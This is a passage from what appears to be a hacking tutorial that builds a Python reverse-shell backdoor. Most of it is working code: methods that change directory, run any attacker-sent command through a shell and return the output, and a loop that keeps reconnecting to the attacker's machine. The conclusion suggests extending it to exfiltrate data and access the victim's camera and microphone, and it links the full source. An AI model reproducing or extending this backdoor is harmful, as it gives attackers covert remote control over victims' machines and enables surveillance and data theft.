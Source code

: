```python
def chdir(self, dir):
        try:
            os.chdir(dir)
            cwd = os.getcwd().replace('\\', '/')
        except:
            cwd = os.getcwd().replace('\\', '/')
        return cwd
```
`exec_cmd()` is responsible for executing commands sent by the attacker.   

```python
def exec_cmd(self, cmd):
        res = Popen(cmd, shell=True, stdout=PIPE, stderr=PIPE, stdin=DEVNULL)
        stdout = res.stdout.read().decode(errors='ignore').strip()
        stderr = res.stderr.read().decode(errors='ignore').strip()
        if stdout:
            return (stdout)
        elif stderr:
            return (stderr)
        else:
            return ''
```

Finally, we define the `run()` method that will start by trying to connect to the attacker machine. In this code, we will be always waiting for the attacker's command in the `x_recv()` method and executing code according to the command received. Note that we handle any error or disconnection by trying to reconnect to the attacking machine.
```python
def run(self):
        self.connect()
        while True:
            try:
                cmd = self.x_recv().split()
                if cmd[0] == 'cd' and len(cmd) > 1:
                    cwd = self.chdir(cmd[1])
                    self.x_send(cwd)
                elif cmd[0] == 'terminate':
                    self.connection.close()
                    self.connect()
                else:
                    out = self.exec_cmd(cmd)
                    self.x_send(out)
            except:
                self.connect()

backdoor = Backdoor("localhost", 5000)
backdoor.run()
```

### [](#header-3) Conclusion
As always you are only limited by your imagination. You can always extend this code by adding threading module to accept multiple connections at the same time. Add custom commands to exfiltrate data from the target machine, access camera and microphone and much more.<br>
You can find the entire code on [github](https://github.com/Ahmed-Z/python-reverse-tcp-shell).<br>
HAPPY HACKING.
